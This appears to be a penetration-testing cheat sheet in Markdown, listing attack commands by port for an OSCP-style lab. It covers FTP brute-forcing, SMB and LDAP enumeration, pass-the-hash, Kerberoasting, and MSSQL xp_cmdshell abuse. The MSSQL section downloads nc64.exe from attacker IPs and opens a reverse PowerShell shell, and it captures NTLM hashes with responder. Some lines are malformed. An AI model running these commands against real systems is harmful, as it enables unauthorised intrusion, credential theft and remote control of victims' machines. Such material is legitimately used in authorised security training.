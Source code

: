 ## Enumeration Checklist

# set your variables

`target=`<br>
`user=`<br>
`pass=`<br>
`ip=`<br>
`domain=`<br>

# 21 FTP

`hydra -l <user list> -P <password list> ftp://$ip`

- common creds patterns

admin/admin<br>
root/root<br>
password/password<br>
username/username<br>


# 53 DNS

`dig @$ip version.bind CHAOS TXT`<br>
`dig axfr @$ip $domain`<br>
`dnsenum $domain`<br>

# 135 RCP

`rpcclient -U '' -N $ip`<br>
`rpcclient -U '$user%$pass' $ip` <br>

- `> enumdomusers      #check the users on the DC`<br>
- `> queryuser <username>  #query the details of the user`<br>
- `> querydispinfo`<br>

`nmblookup -A $ip`<br>

# 445 SMB

**Without Pass**

`enum4linux -a $ip`<br>
`impacket-lookupsid $domain/$user@$domain -no-pass`<br>
`smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares`<br>
`smbclient -N -L //[ip]`<br>
`smbclient //[ip]/[share] -N   #Enumerate Files`<br>


**With Pass**
	
`lookupsid.py  $domain$user:$pass@$domain`<br>

`lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2     
> [!IMPORTANT]
> This oneliner will create a file with all the domain users`

`psexec.py -hashes  :<ntlm hash>    $user@$ip`<br>
`smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r`<br>
`smbclient //$ip/C$ -U '$user%$pass' -c 'dir'`<br>
`netexec smb [host/ip] -u [user] -p [pass] --shares`<br>
`netexec smb [host/ip] -u guest -p '' --shares`<br>
`smbclient //[ip]/[share] -U [username] [password]`<br>
`netexec smb -u [user] -p [pass] -M spider_plus`<br>
`smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth`<br>
`manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]`<br>


# 88 Kerberoas

`nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip`<br>
`kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid`<br>
`impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200`<br>
`impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100`<br>
`kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt`<br>
`kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100`<br>


# 389 LDAP

**Without Pass**
`ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam"`<br>
`ldapsearch -x -H ldap://$ip -s base namingcontexts`<br>
`impacket-lookupsid '$domain/guest'@$domain -no-pass`<br>

**With Pass**
`lookupsid.py  $domain/$user:$pass@$domain`<br>
`ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts`<br>

`bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip`<br>
`neo4j console'<br>
> [!IMPORTANT]<br>
> config file; /usr/share/neo4j/conf<br>
`./Bloodhound  --no-sandbox`


# 1433 MSSQL

`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth`<br>   #Windows login
`impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login`<br>

`SELECT @@version   #Current MSSQL Version`<br>
`SELECT DB_NAME()   #Current Database`<br>
`SELECT name FROM sys.databases;  #show DBs`<br>	
`enum_db            #show DBs`<br>
`select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables`<br>

**cmd comman**

`EXEC sp_configure 'show advanced options', 1;`<br>
`RECONFIGURE;`<br>
`EXEC sp_configure 'xp_cmdshell', 1;`<br>
`RECONFIGURE;`<br>
`EXEC xp_cmdshell ' whoami /priv'`<br>


**powershell**
`xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell`<br>
`xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"`<br>
`xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"`<br>
	
**capture**
`xp_dirtree \\192.168.1.210\shared`<br>
`responder -I tun01`
> [!IMPORTANT]
> When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)

**impersonate**

`enum_impersonate'<br>  > impersonate`<br>
`EXECUTE AS LOGIN = 'username to impersonate'  #impersonate`<br>
`SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`<br>


**MSSQL Cheetsheet**

https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

`xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard`

# 5985 WINRM

`evil-winrm -i $ip -u $user -p $pass`
